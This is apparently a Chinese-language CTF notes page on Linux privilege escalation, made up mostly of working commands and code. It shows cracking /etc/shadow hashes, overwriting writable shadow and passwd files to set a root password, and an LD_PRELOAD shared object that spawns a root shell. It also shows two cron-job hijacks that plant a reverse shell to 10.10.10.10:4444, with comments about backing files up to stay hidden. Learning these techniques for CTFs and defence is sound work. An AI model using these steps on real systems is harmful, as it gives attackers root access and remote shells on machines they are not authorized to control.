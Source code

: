 ```yaml
---
title: Linux提权演示
date: 2025-07-02 16:10:24
description: Linux提权
tags:
- Linux
- Privillege Escalation
categories:
- CTF
---
```


## shadow&password提权

### 可读shadow文件利用提权

```bash
ls -liah /etc/shadow
cat /etc/shadow | grep ':\$'

# 本地添加hash文件暴力破解
sudo john --wordlist=/usr/share/wordlist/rockyou.txt hash
```

### 可写shadow文件利用提权

```bash
ls -liah /etc/shadow # 发现shadow文件可写
cp /etc/shadow /tmp/shadow.bak # 保证可还原并隐匿
mkpasswd -m sha-512 password #生成密码 粘贴到root用户密码
```

### 可写passwd文件利用提权

```bash
ls -liah /etc/passwd # 发现passwd文件可写
cp /etc/passwd /tmp/passwd.bak # 保证可还原并隐匿
openssl passwd password # 生成密码 替代passwd中root:x:0:0的x值
```

---

## sudo环境变量提权

### 使用条件
  当使用sudo -l 时，如果发现env_reset, env_keep+=LD_PRELOAD配置且有command可用时(如find,man,less,cat)

### 示例

- 代码
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

- 编译提权
	```bash
	gcc -fPIC -shared -o shell.so shell.c -nostartfiles
	
	sudo LD_PRELOAD=/home/user/shell.so cat # 假定cat可以无密码sudo使用
	```

---

## 自动任务提权

### 自动任务文件权限提权

#### 使用条件

查看自动任务有自动任务并且shell文件可写时，直接编辑文件

#### 示例

```bash
$ cat /etc/crontab
...
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
...
# m h dom mon dow user command
* * * * * root overwrite.sh
...

$ locate overwrite.sh
/usr/local/bin/overwrite.sh

$ ls -liah /usr/local/bin/overwrite.sh
816761 -rwxr--rw- 1 root staff 40 May 13 2017 /usr/local/bin/overwrite.sh

$ cat >> /usr/local/bin/overwrite.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
EOF
```

### 自动任务PATH环境变量提权

#### 使用条件

在自动任务中指定SHELL和PATH环境变量且第一位的路径为可写目录

#### 示例

```bash
$ cat /etc/crontab
...
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
...
# m h dom mon dow user command
* * * * * root overwrite.sh # 未使用绝对路径
...

# 可以狸猫换太子在/home/user目录下写同名文件
$ locate overwrite.sh
/usr/local/bin/overwrite.sh
$ cat > /home/user/overwrite.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
EOF
$ chmod +x /home/usr/overwrite.sh
```

